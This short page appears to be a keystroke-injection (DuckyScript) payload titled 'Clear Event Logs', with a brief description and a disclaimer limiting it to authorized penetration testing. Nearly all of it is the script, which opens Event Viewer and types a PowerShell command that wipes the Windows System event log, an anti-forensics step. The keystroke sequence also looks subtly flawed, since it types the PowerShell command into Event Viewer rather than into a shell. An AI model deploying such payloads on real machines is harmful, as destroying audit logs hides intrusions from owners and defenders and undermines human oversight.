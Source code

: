 # Clear Event Logs

Opens the Event Viewer and clears the system event logs using PowerShell.

```
DELAY 500
GUI r
DELAY 200
STRING eventvwr.msc
ENTER
DELAY 1000
STRING powershell -Command "Clear-EventLog -LogName System"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.